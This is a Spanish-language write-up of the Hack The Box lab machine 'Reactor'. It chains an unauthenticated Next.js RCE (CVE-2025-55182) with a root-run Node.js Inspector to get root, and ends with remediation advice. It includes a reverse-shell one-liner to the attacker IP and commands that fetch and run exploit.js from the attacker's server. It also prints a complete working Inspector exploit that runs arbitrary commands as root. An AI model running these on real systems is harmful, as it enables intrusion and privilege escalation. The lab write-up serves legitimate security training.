




> [!info] Información de la máquina **Plataforma:** Hack The Box **Máquina:** Reactor **OS:** Linux **Dificultad:** Easy **IP objetivo:** `10.129.245.214` **Dominio:** `reactor.htb` **IP atacante:** `10.10.14.86`

---

## 1. Resumen

**Reactor** es una máquina Linux que combina una vulnerabilidad de **Remote Code Execution (RCE) no autenticada en Next.js** con una mala configuración de un **Node.js Inspector** ejecutándose como `root`.

Cadena de compromiso:



> [!important] Idea clave El primer RCE **no da root directamente**. El acceso inicial es como `uid=999(node)`. La escalada final se logra abusando de un **proceso Node distinto** (`worker.js`) que corre como `root` y expone su interfaz de depuración solo en `127.0.0.1:9229`.

---

## 2. Enumeración inicial

### 2.1 Comprobar conectividad

```bash
ping 10.129.245.214
```

**Resultado:** `0% packet loss` → la máquina está activa.

### 2.2 Escaneo de puertos

```bash
nmap -Pn -sV -p3000 10.129.245.214
```

```text
PORT     STATE SERVICE
3000/tcp open  ppp?
```

> Nmap no identifica el servicio correctamente, pero la respuesta HTTP revela Next.js.

---

## 3. Identificación de Next.js

```bash
curl -sI http://10.129.245.214:3000
```

Cabeceras relevantes:

```text
X-Powered-By: Next.js
Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch
```

Descarga y análisis de recursos:

```bash
curl -s http://10.129.245.214:3000 -o reactor.html
grep -oE '/_next[^"]+' reactor.html | head -30
```

✅ Confirma arquitectura **React Server Components (RSC)**.

---

## 4. Explotación — CVE-2025-55182 (React2Shell)

- **Versión afectada:** Next.js `15.0.3`
- **Tipo:** Deserialización insegura en el procesamiento de Server Actions / RSC
- **Autenticación requerida:** ❌ No
- **Vector:** HTTP
- **Impacto:** Ejecución arbitraria de comandos dentro del proceso Node de la app

```bash
python3 poc.py "http://10.129.245.214:3000/" "id"
```

```text
uid=999(node) gid=988(node) groups=988(node)
```

> [!success] RCE confirmado Ejecución de comandos como `node`, no como `root`.

### 4.1 Sobre los HTTP 500

Muchas respuestas devuelven `500` junto con algo como:

```text
0:{"a":"$@1"...}
1:E{"digest":"..."}
```

Esto **no implica fallo**. El comando puede ejecutarse correctamente y el error surge después, al procesar la respuesta de la Server Action. La evidencia real está en el campo `digest`, donde aparece la salida del comando (p. ej. `uid=999(node)...`).

---

## 5. Intento de Reverse Shell (fallido)

```bash
echo -n 'bash -i >& /dev/tcp/10.10.14.86/4444 0>&1' | base64 -w0
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44Ni80NDQ0IDA+JjE=

nc -lvnp 4444
```

❌ No se recibió conexión.

> [!warning] Por qué falló El exploit usa ejecución **síncrona** (equivalente a `execSync()`). Un comando interactivo que espera una conexión externa deja el proceso Node bloqueado, y solo se ve algo como `digest":"1228136346"` sin conexión real en `nc`.

> [!tip] Lección No siempre se necesita reverse shell. Con RCE + salida HTTP se puede trabajar directamente vía el exploit — es más simple, sin depender de conectividad de retorno ni de estabilizar una TTY.

---

## 6. Enumeración vía RCE

```bash
python3 poc.py "http://10.129.245.214:3000/" "ip addr"
# eth0 - inet 10.129.245.214/16

python3 poc.py "http://10.129.245.214:3000/" "ip route"
# default via 10.129.0.1 dev eth0
# 10.129.0.0/16 dev eth0
```

### 6.1 Localizar la base de datos

```bash
# Búsqueda en / -> demasiado lenta, timeout
python3 poc.py "http://10.129.245.214:3000/" "find / -name reactor.db -type f 2>/dev/null"

# Búsqueda acotada -> éxito
python3 poc.py "http://10.129.245.214:3000/" "find /opt -name reactor.db -type f 2>/dev/null"
```

```text
/opt/reactor-app/reactor.db
```

Intento de extracción con `sqlite3` (`.tables` / `.schema`) → **sin salida útil**. No fue necesario para completar la máquina.

---

## 7. Descubrimiento del Node Inspector 🔑

```bash
python3 poc.py "http://10.129.245.214:3000/" \
"curl -s http://127.0.0.1:9229/json | paste -sd,"
```

Datos obtenidos:

|Campo|Valor|
|---|---|
|**title**|`/opt/uptime-monitor/worker.js`|
|**type**|`node`|
|**webSocketDebuggerUrl**|`ws://127.0.0.1:9229/80c66529-7337-4034-a2c6-85b7b821937c`|
|**Host**|`127.0.0.1`|
|**Puerto**|`9229`|

> [!warning] UUID dinámico `80c66529-7337-4034-a2c6-85b7b821937c` es específico de esta instancia del Inspector y **puede cambiar** si el proceso se reinicia. Debe obtenerse de nuevo vía `/json` en cada intento.

### 7.1 ¿Qué es el puerto 9229?

Node.js permite iniciar procesos con `--inspect=127.0.0.1:9229`, exponiendo el **Chrome DevTools Protocol (CDP)**, que incluye métodos como `Runtime.evaluate` para ejecutar JavaScript dentro del proceso.

Peligroso si:

1. El proceso tiene privilegios elevados.
2. El inspector es accesible para usuarios no confiables.
3. No hay autenticación adecuada.

### 7.2 Por qué esto escala a root



El RCE inicial da `node`, pero el proceso `/opt/uptime-monitor/worker.js` corre con privilegios elevados y su Inspector es alcanzable localmente.

---

## 8. Exploit del Inspector — `exploit.js`

Script usado tras conseguir RCE como `node`, para conectarse al Inspector en `127.0.0.1:9229` mediante el protocolo de depuración y ejecutar JavaScript en el contexto del proceso (que corría como `root`).

### 8.1 Código completo

```javascript
const net = require("net");
const crypto = require("crypto");

const UUID = "80c66529-7337-4034-a2c6-85b7b821937c";

const expression =
"process.mainModule.require('child_process').execSync('cat /home/engineer/user.txt').toString()";

function wsFrame(message) {
    const payload = Buffer.from(message);
    const mask = crypto.randomBytes(4);

    let header;

    if (payload.length < 126) {
        header = Buffer.alloc(6);
        header[0] = 0x81;
        header[1] = 0x80 | payload.length;
        mask.copy(header, 2);
    } else {
        header = Buffer.alloc(8);
        header[0] = 0x81;
        header[1] = 0x80 | 126;
        header.writeUInt16BE(payload.length, 2);
        mask.copy(header, 4);
    }

    const masked = Buffer.alloc(payload.length);

    for (let i = 0; i < payload.length; i++) {
        masked[i] = payload[i] ^ mask[i % 4];
    }

    return Buffer.concat([header, masked]);
}

const socket = net.createConnection({
    host: "127.0.0.1",
    port: 9229
});

socket.on("connect", () => {

    const key = crypto.randomBytes(16).toString("base64");

    const request =
        `GET /${UUID} HTTP/1.1\r\n` +
        `Host: 127.0.0.1:9229\r\n` +
        `Upgrade: websocket\r\n` +
        `Connection: Upgrade\r\n` +
        `Sec-WebSocket-Key: ${key}\r\n` +
        `Sec-WebSocket-Version: 13\r\n\r\n`;

    socket.write(request);
});

let buffer = Buffer.alloc(0);
let upgraded = false;

socket.on("data", data => {

    buffer = Buffer.concat([buffer, data]);

    if (!upgraded) {

        const headerEnd = buffer.indexOf(
            Buffer.from("\r\n\r\n")
        );

        if (headerEnd === -1)
            return;

        upgraded = true;

        buffer = buffer.slice(headerEnd + 4);

        const message = JSON.stringify({
            id: 1,
            method: "Runtime.evaluate",
            params: {
                expression: expression,
                returnByValue: true
            }
        });

        socket.write(wsFrame(message));

        return;
    }

    if (buffer.length < 2)
        return;

    const opcode = buffer[0] & 0x0f;
    const length = buffer[1] & 0x7f;

    if (opcode === 1 && length < 126) {

        const payload = buffer.slice(2, 2 + length);

        console.log(payload.toString());

        socket.destroy();
    }
});

socket.on("error", err => {
    console.error(err.message);
});
```

### 8.2 Explicación paso a paso

|Sección|Propósito|
|---|---|
|`require("net")` / `require("crypto")`|Módulos nativos: `net` para TCP directo contra `127.0.0.1:9229`; `crypto` para generar bytes aleatorios del WebSocket.|
|`UUID`|Identificador de sesión del Inspector, obtenido antes vía `curl -s http://127.0.0.1:9229/json`.|
|`expression`|JS a evaluar: `process.mainModule.require('child_process').execSync(...).toString()`.|
|`wsFrame()`|Construye un frame WebSocket válido (header + máscara XOR + payload enmascarado) según RFC 6455.|
|Conexión TCP|`net.createConnection` hacia `127.0.0.1:9229`, posible porque `exploit.js` corre **dentro** de Reactor tras el RCE inicial.|
|Handshake HTTP → WebSocket|Petición `GET /<UUID>` con cabeceras `Upgrade: websocket` / `Connection: Upgrade`.|
|Detección de fin de headers|Se busca `\r\n\r\n` en el buffer recibido para saber cuándo terminó el handshake.|
|Envío de `Runtime.evaluate`|Mensaje CDP en JSON, empaquetado como frame WebSocket y enviado por el socket.|
|Lectura de la respuesta|Se parsean `opcode` y `length` del frame de respuesta y se extrae el payload de texto.|
|Cierre y manejo de errores|`socket.destroy()` al terminar; `socket.on("error", ...)` para `ECONNREFUSED`, `ECONNRESET`, `ETIMEDOUT`.|

#### Detalle de la expresión clave

```javascript
process.mainModule.require('child_process').execSync('cat /home/engineer/user.txt').toString()
```

- `process` → objeto global del proceso Node actual.
- `process.mainModule` → módulo principal de la app; da acceso al sistema de módulos.
- `.require('child_process')` → carga el módulo `child_process` (ejecución de procesos del SO).
- `.execSync(cmd)` → ejecuta el comando de forma síncrona y devuelve un `Buffer`.
- `.toString()` → convierte el `Buffer` a texto legible.

#### Detalle del framing WebSocket

- `header[0] = 0x81` → `FIN=1`, `opcode=1` (frame de texto).
- `header[1] = 0x80 | length` → bit de máscara activado (`0x80`) + longitud del payload.
- `mask.copy(header, 2)` → inserta los 4 bytes de máscara tras el header corto.
- XOR byte a byte: `masked[i] = payload[i] ^ mask[i % 4]` (la máscara se repite cada 4 bytes), tal como exige el protocolo para frames enviados por un cliente.

### 8.3 Flujo técnico completo



---

## 9. Transferencia y ejecución del exploit

### 9.1 Servir el archivo desde Kali

```bash
cd ~/Desktop
python3 -m http.server 8080
```

### 9.2 Descargarlo en Reactor

```bash
python3 poc.py "http://10.129.245.214:3000/" \
"curl -s http://10.10.14.86:8080/exploit.js -o /tmp/exploit.js && echo DOWNLOADED"
```

```text
DOWNLOADED
```

### 9.3 Ejecutarlo (verificación con `id`)

```bash
python3 poc.py "http://10.129.245.214:3000/" \
"node /tmp/exploit.js 2>&1 | paste -sd,"
```

```json
{
    "id": 1,
    "result": {
        "result": {
            "type": "string",
            "value": "uid=0(root) gid=0(root) groups=0(root)\n"
        }
    }
}
```

> [!success] Root confirmado El JavaScript se ejecuta dentro del proceso privilegiado `worker.js` → `uid=0(root)`.

---

## 10. Captura de flags

### 10.1 Root flag

Se modifica `expression` en `exploit.js`:

```javascript
const expression =
    "process.mainModule.require('child_process').execSync('cat /root/root.txt').toString()";
```

Re-transferir y ejecutar:

```bash
python3 poc.py "http://10.129.245.214:3000/" \
"curl -s http://10.10.14.86:8080/exploit.js -o /tmp/exploit.js"

python3 poc.py "http://10.129.245.214:3000/" \
"node /tmp/exploit.js 2>&1 | paste -sd,"
```

➡️ Devuelve el contenido de `/root/root.txt` → **ROOT FLAG** ✅

### 10.2 User flag

Como ahora el código corre como `root`, también se puede leer `/home/engineer/`:

```javascript
const expression =
    "process.mainModule.require('child_process').execSync('cat /home/engineer/user.txt').toString()";
```

Repetir transferencia + ejecución → **USER FLAG** ✅

---

## 11. Cadena completa de ataque



```text
CVE-2025-55182
        ↓
RCE no autenticado
        ↓
node
        ↓
Node Inspector :9229
        ↓
Runtime.evaluate
        ↓
child_process.execSync()
        ↓
root
```

---

## 12. Comandos principales (referencia rápida)

### Enumeración

```bash
ping 10.129.245.214
nmap -Pn -sV -p3000 10.129.245.214
curl -sI http://10.129.245.214:3000
curl -s http://10.129.245.214:3000 -o reactor.html
```

### RCE

```bash
python3 poc.py "http://10.129.245.214:3000/" "id"
python3 poc.py "http://10.129.245.214:3000/" "ip addr"
python3 poc.py "http://10.129.245.214:3000/" "ip route"
```

### Enumeración de archivos

```bash
python3 poc.py "http://10.129.245.214:3000/" "find /opt -name reactor.db -type f 2>/dev/null"
# -> /opt/reactor-app/reactor.db
```

### Node Inspector

```bash
python3 poc.py "http://10.129.245.214:3000/" "curl -s http://127.0.0.1:9229/json | paste -sd,"
# -> 127.0.0.1:9229
# -> UUID: 80c66529-7337-4034-a2c6-85b7b821937c (dinámico)
```

### Servidor HTTP del atacante

```bash
cd ~/Desktop
python3 -m http.server 8080
```

### Transferencia y ejecución del exploit

```bash
python3 poc.py "http://10.129.245.214:3000/" "curl -s http://10.10.14.86:8080/exploit.js -o /tmp/exploit.js"
python3 poc.py "http://10.129.245.214:3000/" "node /tmp/exploit.js 2>&1 | paste -sd,"
```

---

## 13. Conceptos aprendidos

- **Next.js / RSC:** los React Server Components ejecutan lógica del lado del servidor; una vulnerabilidad en el procesamiento de sus datos puede convertir una petición HTTP normal en RCE.
- **RCE:** ejecución remota de comandos arbitrarios — aquí, `RCE → node` (no root).
- **Node.js Inspector:** interfaz de depuración en el puerto `9229`; expuesta incorrectamente equivale a RCE dentro del proceso.
- **CDP (Chrome DevTools Protocol):** protocolo usado por el Inspector; método clave: `Runtime.evaluate`.
- **WebSocket:** el Inspector expone `ws://127.0.0.1:9229/<UUID>`; la comunicación posterior usa frames WebSocket.
- **`child_process`:** módulo nativo de Node para ejecutar procesos del SO (`execSync`, etc.).

---

## 14. Lecciones de pentesting

> [!important] Lección 1 — Un RCE no significa automáticamente root Siempre verificar `id` / `whoami` antes de asumir privilegios.

> [!important] Lección 2 — Enumerar servicios locales Servicios ligados a `127.0.0.1` no aparecen en Nmap remoto pero pueden ser críticos tras obtener acceso local. Revisar con `ss -lntp` / `ss -tulnp`.

> [!important] Lección 3 — Los servicios de debugging son peligrosos Un Inspector de Node corriendo como `root` es una superficie de ataque crítica; nunca debería estar disponible para usuarios no confiables en producción.

> [!important] Lección 4 — No depender siempre de un reverse shell Con `RCE + salida del comando` se puede enumerar todo vía HTTP: sin depender de conectividad de retorno, sin estabilizar TTY, ejecutando comandos individuales y evitando procesos interactivos bloqueantes.

---

## 15. Remediación

- **Next.js:** actualizar a una versión que corrija `CVE-2025-55182`; no mantener versiones vulnerables expuestas sin autenticación.
- **Node Inspector:** deshabilitar `--inspect` en producción. Si es imprescindible:
    - limitarlo estrictamente (firewall/loopback real, no solo binding);
    - usar controles de acceso;
    - **nunca** ejecutarlo como `root`;
    - evitar exponerlo a usuarios no confiables.
- **Principio de mínimo privilegio:** `/opt/uptime-monitor/worker.js` no debería ejecutarse como `root` si sus funciones no lo requieren.

---

## 16. Resumen final

```text
1. Enumerar
2. Identificar Next.js
3. Identificar CVE-2025-55182
4. Obtener RCE
5. Confirmar usuario con id
6. Enumerar archivos y servicios
7. Encontrar Node Inspector
8. Identificar 127.0.0.1:9229
9. Obtener WebSocket UUID
10. Conectar mediante WebSocket
11. Utilizar Runtime.evaluate
12. Acceder a child_process
13. Confirmar uid=0
14. Leer user.txt
15. Leer root.txt
```

> [!success] Resultado **User Flag:** capturada ✅ **Root Flag:** capturada ✅ **Root:** `uid=0(root)` **Vector inicial:** CVE-2025-55182 (Next.js RSC RCE no autenticado) **Vector de privesc:** Node.js Inspector / CDP mal configurado **Servicio crítico:** `127.0.0.1:9229

